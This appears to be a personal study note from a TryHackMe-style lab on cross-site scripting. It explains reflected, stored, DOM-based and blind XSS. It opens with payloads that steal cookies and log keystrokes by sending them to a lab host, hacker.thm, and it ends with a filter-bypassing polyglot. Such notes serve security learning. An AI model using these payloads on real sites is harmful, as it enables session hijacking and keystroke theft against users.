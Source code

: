 ## some usefull payloads

POC : `<script>alert('XSS');</script>`

session stealling : `<script>fetch('https://hacker.thm/steal?cookie='+btoa(document.cookie));</script>`

keyloogger : `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`

## types 

1. reflected
2. stored
3. blind
4. dom

### Reflected xss

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/8e3bffe500771c03366de569c3565058.png)

some testing points :
- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected

### stored xss

XSS payload is stored on the web application and gets run when other users visit the site or web page.

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/cc2566d297f7328d91bc8552f902210e.png)


test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to eg: comments, user profile information

### Dom blind

what is DOM: 

Document Object Model and is a programming interface for HTML and XML documents.It represents the page so that programs can change the document structure, style and content.

![img](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/24a54ac532b5820bf0ffdddf00ab2247.png)


DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code.

Execution occurs when the website JavaScript code acts on input or user interaction.


eg : The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section.


### Blind xss

Blind XSS is similar to a stored XSS in that your payload gets stored on the website for another user to view, but in this instance, you can't see the payload working or be able to test it against yourself first.

A popular tool for Blind XSS attacks is [xsshunter](https://xsshunter.com/). 

***

#### Polygot

An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one. You could have used the below polyglot on all six levels you've just completed, and it would have executed the code successfully. 

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e

```
